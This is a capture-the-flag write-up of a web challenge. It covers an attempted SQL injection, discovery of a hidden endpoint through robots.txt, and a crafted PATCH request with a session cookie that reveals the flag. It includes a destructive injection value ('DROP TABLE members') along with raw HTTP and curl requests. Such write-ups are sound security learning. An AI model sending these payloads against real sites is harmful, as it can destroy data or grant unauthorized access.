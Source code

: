 ## I am Optimus Prime

Amid the chaos, you spot something crucial: a control unit embedded in the mechanoids'' chassis. With a well-timed leap, you manage to access one of the units. A complex matrix of data awaits you inside, but if you can decipher it, you could seize control of the entire robotic army. Can you crack the code and turn the tables on IOI?

 Attachment: https://drive.proton.me/urls/Z5715WJ2ZG#bubCkAYX6dlt



After trying things like inspect element and other random stuff, We thought of SQL injection. I tried a few commands, like **10; DROP TABLE members /***, But I realised that the inputs were sanitized, Since the page changed and gvae an error. We remembered that every site has one page. robots.txt. and sure enough, it did exist.

It returned this:

```
User-agent: *f
Disallow: /hiddenFlag
```

/hiddenFlag is clearly another endpoint. 

```
curl -X POST https://blogpost.oasis.cryptonite.live/hiddenFlag
```

Doing this gives me the result "invalid token". 

Clearly there is some flag or password we have to provide.

I opened up burp suite again.  Added the request "revealFlag = True".

```
PATCH /hiddenFlag HTTP/2
Host: blogpost.oasis.cryptonite.live
Cookie: user_token=ea2b77c8-4721-4e00-97c7-9b5a76a95220
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: https://blogpost.oasis.cryptonite.live/
revealFlag=true
```

```
curl -X PATCH https://blogpost.oasis.cryptonite.live/hiddenFlag \
-H "Cookie: user_token=ea2b77c8-4721-4e00-97c7-9b5a76a95220" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "userAgent=OASIS" \
```
Doing this a few times reveals the flag.

# END
We Got stuck in the next challenge for a long time and fell from #6 to #12 to end our marathon and frankly no one could give their all on the last problem since we were very tired after the 2 day ratrace.
